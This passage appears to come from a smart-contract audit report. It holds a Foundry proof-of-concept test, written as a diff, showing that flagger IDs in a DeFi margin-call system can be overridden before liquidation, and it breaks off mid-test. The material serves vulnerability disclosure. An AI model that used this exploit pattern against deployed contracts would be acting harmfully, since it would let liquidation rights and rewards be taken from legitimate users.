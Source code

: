 ### POC Test
```diff
diff --git a/test/MarginCallFlagShort.t.sol b/test/MarginCallFlagShort.t.sol
index 906657e..3d7f985 100644
--- a/test/MarginCallFlagShort.t.sol
+++ b/test/MarginCallFlagShort.t.sol
@@ -169,6 +169,90 @@ contract MarginCallFlagShortTest is MarginCallHelper {
         assertEq(diamond.getFlagger(shortRecord.flaggerId), extra);
     }
 
+    function test_FlaggerId_Override_Before_Call() public {
+        address flagger1 = address(77);
+        address flagger2 = address(78);
+
+        vm.label(flagger1, "flagger1");
+        vm.label(flagger2, "flagger2");
+
+        //create first short
+        fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
+        fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, sender);
+        STypes.ShortRecord memory shortRecord1 =
+            diamond.getShortRecord(asset, sender, Constants.SHORT_STARTING_ID);
+
+        assertEq(diamond.getFlaggerIdCounter(), 1);
+        assertEq(shortRecord1.flaggerId, 0);
+        assertEq(diamond.getFlagger(shortRecord1.flaggerId), address(0));
+
+        //flag first short
+        setETH(2500 ether);
+        vm.prank(flagger1);
+        diamond.flagShort(asset, sender, shortRecord1.id, Constants.HEAD);
+        shortRecord1 = diamond.getShortRecord(asset, sender, shortRecord1.id);
+
+        assertEq(diamond.getFlaggerIdCounter(), 2);
+        assertEq(shortRecord1.flaggerId, 1);
+        assertEq(diamond.getFlagger(shortRecord1.flaggerId), flagger1);
+
+        skip(TEN_HRS_PLUS);
+        setETH(2500 ether);
+
+        //attempting direct liquidation by flagger2 fails since only allowed to flagger1
+
+        //add ask order to liquidate against
+        fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
+
+        uint16[] memory shortHintArray = setShortHintArray();
+        vm.prank(flagger2);
+        vm.expectRevert(Errors.MarginCallIneligibleWindow.selector);
+        diamond.liquidate(asset, sender, shortRecord1.id, shortHintArray);
+
+        //cancel the previously created ask order
+        fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
+
+        //reset
+        setETH(4000 ether);
+
+        //create another short
+        fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, receiver);
+        fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, sender);
+        STypes.ShortRecord memory shortRecord2 =
+            diamond.getShortRecord(asset, sender, Constants.SHORT_STARTING_ID + 1);
+
+        assertEq(diamond.getFlaggerIdCounter(), 2);
```